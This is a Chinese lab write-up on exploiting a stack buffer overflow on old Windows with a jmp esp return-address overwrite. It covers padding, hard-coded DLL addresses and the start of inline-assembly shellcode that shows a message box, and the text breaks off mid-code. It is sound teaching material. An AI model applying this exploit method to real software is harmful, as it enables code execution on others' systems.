# 缓冲区溢出漏洞和密码学应用

实验目的：（1）能够掌握缓冲区溢出漏洞的利用原理；（2）能够掌握简单的 ShellCode 的编写方法；（3）能够掌握常用加密库的使用

参与作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)

# 练习1 利用jmp esp指令实现缓冲区溢出

## 实验原理

一．堆栈简介
1．CPU
  当用计算机解决某个问题时，我们首先必须为它编写程序。程序是一个指令序列，这个序列明确告诉计算机应该执行什么操作，以及在什么地方找到用来操作的数据。一旦把程序加载到内存，就可以由计算机来自动完成取出指令和执行指令的任务。专门用来完成此项工作的计算机部件称为中央处理器，通常简称CPU。
  CPU对整个计算机系统的运行是极其重要的，它具有如下四方面的基本功能：
  （1）指令控制：程序的顺序控制称为指令控制。由于程序是一个指令序列，这些指令的相互顺序不能任意颠倒，必须严格按程序规定的顺序进行。
  （2）操作控制：一条指令的功能往往是由若干个操作信号的组合来实现的，因此，CPU管理并产生由内存取出的每条指令的操作信号，把各种操作信号送往相应的部件，从而控制这些部件按指令的要求进行动作。
  （3）时间控制：对各种操作实施时间上的定时称为时间控制。在计算机中，各种指令的操作信号以及一条指令的整个执行过程都受到时间的严格定时。
  （4）数据加工：数据加工就是对数据进行算术运算和逻辑运算处理。
  在CPU中至少要有六类寄存器。这些寄存器用来暂存一个计算机字。根据需要，可以扩充其数目。这六类寄存器是：数据缓冲寄存器（DR）、指令寄存器（IR）、程序计数器（PC）、地址寄存器（AR）、累加寄存器（AC）、状态条件寄存器（PSW）。
  为了保证程序能够连续地执行，CPU必须具有某些手段来确定下一条指令的地址。在程序开始执行前，必须将它的起始地址，即程序的第一条指令所在的内存单元地址送入PC，因此PC的内容即是从内存提取的第一条指令的地址。当执行指令时，CPU将自动修改PC的内容，以便使其保持的总是将要执行的下一条指令的地址。由于大多数指令都是按顺序来执行的，所以修改的过程通常只是简单的对PC加1。但是，当遇到转移指令（如JMP、CALL等）时，后继指令的地址（即PC的内容)必须从指令的地址段取得。在这种情况下，下一条从内存取出的指令将由转移指令来规定，而不是像通常一样按顺序来取得。因此程序计数器的结构应当是具有寄存信息和计数两种功能的结构。
2．进程的内存映象布局
  进程通常被定义为一个正在运行的程序的实例。进程地址空间的内存布局如图1所示。


图1 进程地址空间的内存布局

  代码区：用于存放程序的执行指令。
  数据区：用于存放程序执行时使用的数据。
  堆：堆是进程地址空间内的一块线性空间，它被用来存放（和管理）进程动态分配的内存对象。堆是自低向高生长。
  栈：栈也是进程地址空间内的一块线性空间，它被用来存放（和管理）运行期的临时变量、函数参数等。栈是自高向低生长。
3．程序运行栈
  在运行一个程序时，通常每一个函数调用（或过程调用）都得重新分配局部变量，这样就必须以一个基于栈的风格来分配活动记录，即当进行一个新的函数调用（活动记录的压入（push））时，每个新的活动记录都分配在栈的顶部，而当函数调用退出时则解除分配（活动记录的弹出（pop））。活动记录的栈（stack of activation record）（也指运行时栈（runtime stack）或调用栈（call stack））随程序执行时的调用链变化来生长或缩小。栈的特点就是，后进先出。
  活动记录是用来存储每一个作用域的活动参数的，例如一个函数的调用，它的活动记录就会存放调用者的地址、返回值、保存的机器状态（用于返回）、局部变量和临时变量等。
4．函数调用过程
  一般函数调用过程如下：
  （1）将函数参数入栈，第一个参数在栈顶，最后一个参数在栈底（由右向左压栈）。
  （2）执行CALL指令，调用该函数，进入该函数代码空间。
  执行CALL指令，将CALL指令下一行代码的地址入栈。
  进入函数代码空间后，将基址指针EBP入栈，然后让基址指针EBP指向当前栈的栈顶，并用它访问存在栈中的函数输入参数及栈中的其他数据。
  栈指针ESP减少一个值，即向上移动一个距离，用来预留一段空间给该函数作为临时存储区。
  函数正式被执行。
  （3）函数执行完毕返回调用处继续执行后继指令。
  将当前EBP的值传给堆栈指针ESP，恢复ESP。
  基址指针EBP出栈，恢复EBP。
  执行RET指令，返回调用点的下一条指令。
5．程序执行流程的改变
  程序中的大多数指令都是按顺序来执行的，但是，当遇到转移指令时，程序的执行流程就可能发生跳转，常用的转移指令包括JMP（无条件跳转指令）、CALL（函数调用指令）、RET（函数返回指令）等。
二．缓冲区溢出描述动画演示
  通过向程序的缓冲区（堆、栈等）中写入超出其长度的数据，造成缓冲区溢出。缓冲区的溢出可以破坏程序执行流程，使程序转向执行其它指令。利用缓冲区溢出可以达到攻击主机的目的。以下是栈溢出示例。
  正常空的缓冲区如图2所示。


图2 空缓冲区

  正常的存有数据的缓冲区如图3所示。


图3 存有数据的缓冲区

  缓冲区溢出时如图4所示（向缓冲区name写入的数据超过了缓冲区的容量）。


图4 缓冲区溢出

  缓冲区溢出的根本原因在于语言本身的一些特性。从数据结构的角度来说，最根本的原因是由于指针、数组的存在，导致了一系列存储操作上的问题。而直接的原因则是“没有对数组的越界加以监视和限制”。程序编写者的经验不足或粗心大意使得缓冲区溢出几乎无处不在，导致程序不够健壮，为缓冲区溢出攻击留下了隐患。
三．缓冲区溢出攻击
  攻击者可以利用缓冲区溢出漏洞，通过溢出来获取程序的控制权。若此程序具有足够的权限，则攻击者就因此获得了系统的控制权。
  要实施一次有效的缓冲区溢出攻击，攻击者必须完成如下任务：
  （1）在程序的地址空间里植入适当的代码(称为shellcode)用于完成获取系统控制权等非法任务。
  （2）通过修改寄存器或内存，让程序执行流跳转到攻击者植入的shellcode地址空间执行。
  下面以栈溢出为例，简要介绍一下这两个任务的实现方法：
  （1）shellcode植入：当缓冲区溢出发生在程序的IO操作附近时，攻击者可以直接利用程序的输入，向程序中植入shellcode。
  （2）程序执行流程的跳转：shellcode植入后，缓冲区溢出便会发生，以上面的栈溢出为例，如图5，函数调用的返回地址被覆盖为AAAAA，这样当此函数执行完毕返回时，程序执行流会跳转到0xAAAAA（即shellcode）处继续执行。


图5 堆栈溢出

四．缓冲区溢出的防范

在编写程序的时候程序员有责任和义务养成安全编程的思想，应该熟悉那些可能会产生缓冲区溢出漏洞的函数，清楚那些在编程中要小心使用的函数。在软件测试阶段，测试人员要专门对程序中的每个缓冲区作边界检查和溢出检测。但是，由于程序员的经验不足和测试工作不够全面，目前还不可能完全避免缓冲区溢出漏洞，因此这些漏洞在已经使用以及正在开发的软件中还是有存在的可能性，还需要在使用软件时，对它做实时的监测。

当前，由于计算机厂商和系统开发商的努力，现在的计算机一般使用一种叫数据执行保护（DEP）的技术，如果数据出现在标记为不被执行的内存页中，CPU将不予执行。从而有效的防护溢出漏洞。Windows XP SP2及Windows Server 2003现在已支持这些技术，目前市面上的大多数的32位CPU及全部的64位CPU，都支持No Execute（NX）这类安全增强技术。

另外在Visual Studio 2003及以后微软的VC++开发平台中，编译器都加入了一个/GS开关（即缓冲区安全检查设置项），该开关的打开，优化了代码的顺序，能有效防止因内存溢出而覆盖程序重要数据现象的发生。默认情况下该开关是打开的。

## 实验内容

本练习单人为一组。
  「注」本练习可能因为主机的CPU有EDB或EVP防病毒技术，而达不到应有的实验效果。
  首先使用“快照X”恢复Windows系统环境。
一．溢出程序演示
  （1）进入实验平台，单击工具栏“演示目录”按钮，进入实验目录。进入Mission1目录，双击overflow_win.exe，加载ShellCode执行溢出操作。
二．溢出实现
  本练习操作通过缓冲区溢出来实现弹出消息框（MessageBox对话框）。针对windows平台实现缓冲区溢出，该实验实现溢出的方式及流程具有着一定的通用性。
  我们需要开发实现两部分内容：一部分是漏洞程序overflow，该程序通过memcpy 函数实现缓冲区溢出，当然你也可以通过其它函数实现溢出。另一部分内容则是生成shellcode，shellcode是程序溢出后欲执行的指令代码，如通过shellcode实现程序溢出后弹出对话框等功能。



<center>图1  溢出前后堆栈分布状态</center>

  对照图4-2-1，在程序正常执行时，memcpy函数被执行完毕后，指令指针会返回至ret地址处，继续执行memcpy函数调用处的后续指令；同时，执行完ret指令后ESP指针也会指向堆栈原始区（调用memcpy函数前一时刻的堆栈分布）。因此，我们可以将溢出代码shellcode存在堆栈原始区，而剩下的工作就是在memcpy执行返回时让EIP指针指向原始区(也就是ESP指针指向的地址)即可。如何通过ret返回地址确定此时的堆栈ESP指针指向呢？在这里采用的方法是通过跳转指令`jmp esp`(无条件跳转至esp指向处执行)。通过在用户地址空间中查找到包含有`jmp esp`指令的存储地址，用该地址覆盖ret返回地址就可以了。

  在具体实现时，我们通过三个步骤完成缓冲区溢出：

1. 编写前导码。
     所谓前导码就是用于覆盖局部变量到ret返回地址之间的堆栈空间(不包括ret返回地址空间)的指令码。前导码仅是用于填充堆栈，所以其内容不受限制。我们需要在实际的调试中来确定前导码的大小。
     「说明」 cl、gcc等诸多C编译器在为局部变量申请内存空间时，经常要多出若干字节。

2. 查找jmp esp指令地址。
     用”jmp esp”指令的地址覆盖ret，就可以在memcpy执行返回后，让CPU执行跳转指令，所以首要解决的是在用户空间中找到含有“jmp esp”指令的地址。通过VC++6.0的反汇编功能得到“jmp esp”指令的机器码为0xFFE4。利用FindJmpesp工具进行指令查找，确定一个含有“jmp esp”指令的内存地址。
     「注」在用户地址空间中会存在多个包含有jmp esp指令的地址。

3. shellcode功能体。
     shellcode功能体实现了溢出后主要的执行功能，如创建超级用户，提升用户权限等。在这里我们通过自定义指令来实现弹出用户对话框。

##### 1．编写前导码

  单击工具栏中“OverFlow工程”按钮，打开工程文件。该工程包含两个项目，overflow和CreateShellcode项目，建议在debug版下进行开发调试。
  将overflow项目设置为启动项目（Set as Active Project），该项目仅有一个源文件overflow.c，在此源文件中提供了部分代码，注释的地方需要你根据实际调试结果来填写。展开overflow files前的加号，继续展开Source Files前的加号，双击overflow.c，将光标调整到源代码的第34行的大括弧的前面，按F9设置断点，点击菜单栏中的Build|Rebuild All，把修改的内容重新保存一下。
  具体操作如下图：




   程序中提供了一个超长前导码，你需要对程序进行调试来确定实际需要的前导码长度。按F10，对代码进行单步调试，直到调试到断点位置。按Alt键的同时按8，进行反汇编，然后在代码的任意空白处点击鼠标右键，选择Code Bytes，如下图：




  然后继续按F10进行单步调试，将看到overflow调用返回，具体调试结果如下图：

 




   再按一下F10，将看到ret返回地址的信息，具体操作如下图：



  调试过程如下图：


<center>图6 调试确定前导码长度</center>

在上图中可以看出，0x49484746四字节覆盖了ret返回地址，请根据调试结果重新确定shellcode指令集长度，确定ret返回地址能够被前导码的后续4字节覆盖。按Shift键同时按下F5，停止单步调试，等待查找到jmp esp指令地址后再修改shellcode指令集。

`ret返回地址是0x49484746，这是被我们的shellcode覆盖的结果。`

##### 2．查找jmp esp指令地址

  我们需要在用户地址空间中找到包含有jmp esp指令(机器码为0xFFE4)的地址。运行FindJmpesp工具，选取一个地址追加到shellcode尾（追加填加地址时注意数组高字节对应地址高位），所选jmp esp指令地址是 0x77e424da。





  跟踪调试程序，确定在memcpy执行返回时jmp esp指令是否被执行。调试过程如图所示。

  「说明」 可以在shellcode尾部继续追加空指令(0x90，空指令不进行任何操作)，这样便于确定执行jmp esp后指令指针的指向。


<center>图7 在jmp esp后是4个空指令</center>

  从上图可以看出，在jmp esp指令执行完毕后，指令指针紧接着执行了3个空指令，而空指令是追加在shellcode尾部的。所以我们下一步所要做的工作就是将实现弹出对话框的指令码追加至shellcod中jmp esp指令地址的后面。

##### 3．生成实现弹出对话框的指令码

  我们最终的目的是要通过缓冲区溢出实现弹出消息对话框，而这些功能都应该在shellcode得以实现。通过在shellcode中调用MessageBoxA　API函数,并确定好MessageBoxA所需的4个参数：窗体句柄、标题显示、内容显示和风格即可以实现弹出指定内容的对话框。
  根据Windows API文档，MessageBoxA依赖于user32.lib，也就是说它位于user32.dll动态链接库中。单击工具栏“Depends”按钮，启动Depends工具，Depends打开应用程序D:ExpNICNetADToolsOverFlowMission1overflow_win.exe，可以发现它将加载user32.dll。然后寻找MessageBoxA函数的内存位置。具体操作如图所示。


<center>图8 计算MessageBoxA绝对内存地址</center>

1. 在左侧Module树状视图中选中“USER32.DLL”节点；
2. 在右侧导出函数列表视图中遍历Function属性列，查找函数“MessageBoxA”（序号480）；
3. 在下侧Module列表视图中遍历Module属性列，查找模块“USER32.DLL”。

  在这里的user32.dll中，MessageBoxA（ASCII版本）函数的偏移量（Entry Point）为0x0003D8DE。User32.dll(Module)在内存中的起始地址(Base)为0x77E10000。将两者相加即可得到MessageBoxA函数的绝对内存地址。所以我们需要在汇编代码中正确设置堆栈并调用MessageBoxA函数的绝对内存地址，该地址为 `0x77E4D8DE`     。

 


  另外还需要调用执行函数ExitProcess(位于KERNEL32.dll中)，其目的就是在单击弹出框“确定”按钮后程序自动退出，函数ExitProcess的绝对内存地址` 0x7C813039`    。

 


  在overflow工程中将Createshellcode项目设置为启动项目，该项目仅有一个源文件Createshellcode.c，在此源文件中提供了全部的代码及注释说明。代码的主体部分是用汇编语言实现的，其功能就是在实现了弹出对话框后自动退出程序。
  将函数MessageBoxA和ExitProcess的绝对内存地址填写到指定位置。
  在理解了Createshellcode.c中的汇编部分代码后，就可以利用VC++6.0反汇编功能获取代码字节，调试过程如图所示。



<center>图9 显示代码字节</center>

 

将代码字节以十六进制数据形式继续追加到shellcode尾。  重新编译执行。

#### createshell部分

可以再次直接打印出字节码（需要把项目设置成**release模式**，`asm()`函数内容中也应仅有汇编代码，不能有多部分）

```c
#include <stdio.h>
#include <windows.h>

/*
	CreateShellcode.c 功能：生成shellcode执行体指令码
	作者：jlcss

	生成shellcode执行体，其功能是弹出MessageBox对话框，在单击对话框“确定”按钮后程序自动退出
	MessageBox参数：　窗体句柄 0，显示文本 ^o^..堆栈成功溢出!，标题　堆栈成功溢出!，风格 0
	熟读代码及注释，在本实验的实验报告中绘制出堆栈在函数调用前后的分布状态
*/


//	加载user32.dll
int Load_user32_library()
{
	HINSTANCE h; 
	char dllname[12];
	strcpy(dllname, "user32");

	h = GetModuleHandleA(dllname); 
	if(h == NULL) 
	{ 
		h = LoadLibraryA(dllname); 
		if(h == NULL) 
		{ 
			printf("加载user32失败"); 
			return -1; 
		} 
	} 

	return 0;
}

int asm()
{
// 仅保留汇编代码，去除其它
	__asm
	{
		push ebp;		// 保护当前基址寄存器状态，基址指针入栈
		push ecx;		// 保护当前ecx寄存器状态，ecx指针入栈
		mov ebp, esp	// 改变基址指针，使其指向当前堆栈栈顶
		sub esp, 54h	// 申请54h字节空间，局部变量参数暂存此空间内
